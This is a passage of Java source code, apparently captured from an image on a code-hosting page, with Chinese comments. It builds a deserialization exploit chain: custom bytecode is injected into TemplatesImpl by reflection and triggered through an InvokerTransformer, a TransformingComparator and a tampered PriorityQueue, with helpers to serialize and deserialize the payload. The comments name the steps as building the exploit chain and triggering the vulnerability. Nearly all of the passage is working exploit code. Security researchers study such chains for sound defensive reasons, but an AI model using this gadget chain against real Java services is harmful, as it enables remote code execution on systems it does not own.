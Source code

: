 ```java
        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field bytecodes = aClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(TemplatesImpl_instance, new byte[][]{bytes});

        //设置属性_name不为空
        Field name = aClass.getDeclaredField("_name");
        name.setAccessible(true);
        System.out.println(name.get(TemplatesImpl_instance));
        name.set(TemplatesImpl_instance, "xpssss");

        //构造利用链
        InvokerTransformer transformer = new InvokerTransformer("newTransformer", null, null);
        TransformingComparator transforming_Comparator = new TransformingComparator(transformer);

        //触发漏洞
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(1);

        //通过反射设置比较器
        Field field = queue.getClass().getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, transforming_Comparator);
        //通过反射强行修改队列，将TemplatesImpl_instance加入到队列中
        Field field2 = queue.getClass().getDeclaredField("queue");
        field2.setAccessible(true);
        Object[] objects = new Object[]{TemplatesImpl_instance, null};
        field2.set(queue, objects);

        return queue;
    }


    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }


}

```
